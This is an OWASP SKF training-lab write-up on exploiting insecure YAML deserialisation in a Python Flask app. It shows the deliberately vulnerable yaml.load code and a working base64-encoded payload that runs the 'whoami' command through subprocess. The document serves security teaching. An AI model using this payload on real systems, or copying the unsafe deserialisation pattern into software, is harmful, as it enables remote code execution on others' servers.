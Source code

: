 # KBID 271 - Deserialisation Yaml

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

This application is using a yaml serialised object to display the content in the HTML. As you can see below, the default base64 encoded string is loaded as part of the URL.

![](.gitbook/assets/DES-Yaml1\_2.png)

By Base64 decoding you can see it uses a key value pair -> foo : value

![](.gitbook/assets/DES-Yaml1\_3.png)

Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the Base64 encoded string to be processed by the application and use YAML to parse parse the key value to display the content in the application as shown below.

![](.gitbook/assets/DES-Yaml1\_1.png)

In the code example the _input_ query string parameter is used to read the input value but as you can see this is under the users control. Instead of just sending the intended text over the request, a potential attacker could abuse this function to also supply his own crafted yaml that the attacker controls.

```python
@app.route("/information/<input>", methods=['GET'])
def deserialization(input):
    try:
            if not input:
                return render_template("information/index.html")
            yaml_file = base64.b64decode(input)
            content = yaml.load(yaml_file)
    except:
            content = "The application was unable to  to deserialize the object!"
    return render_template("index.html", content = content['yaml'])
```

## Exploitation

### Step 1

A potential attacker can now tamper the Base64 encoded yaml parameter that will be parsed by the application.

Let's try to craft or own yaml object and check whether the application will accept it or not.

```yaml
yaml: woop woop
```

Encode it in Base64 and put it in place the original yaml object.

```
eWFtbDogd29vcCB3b29w
```

![](.gitbook/assets/DES-Yaml1\_4.png)

As you can see our yaml object was accepted and parsed by the application.

When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
yaml: !!python/object/apply:subprocess.check_output ['whoami']
```

Base64:

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnd2hvYW1pJ10=
```

Now when we submit the new yaml object we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.

![](.gitbook/assets/DES-Yaml1\_5.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization_Cheat_Sheet#Python" %}

